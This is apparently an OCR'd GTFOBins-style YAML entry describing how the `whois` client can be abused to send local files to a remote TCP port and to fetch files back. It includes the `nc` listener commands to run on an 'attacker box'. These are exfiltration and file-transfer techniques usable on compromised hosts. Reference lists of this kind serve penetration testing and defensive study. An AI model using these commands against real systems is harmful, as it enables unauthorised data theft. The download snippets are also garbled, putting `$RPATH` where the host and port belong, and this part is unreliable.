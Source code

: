 ```yaml
---
description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 4444 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  file-download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 4444 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        whois -h $RPATH -p $RPORT > "$NFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 4444` on the attacker box to send the file.
      code: |
        whois -h $RHOST -p $RPATH | base64 -d > "$NFILE"
---
```

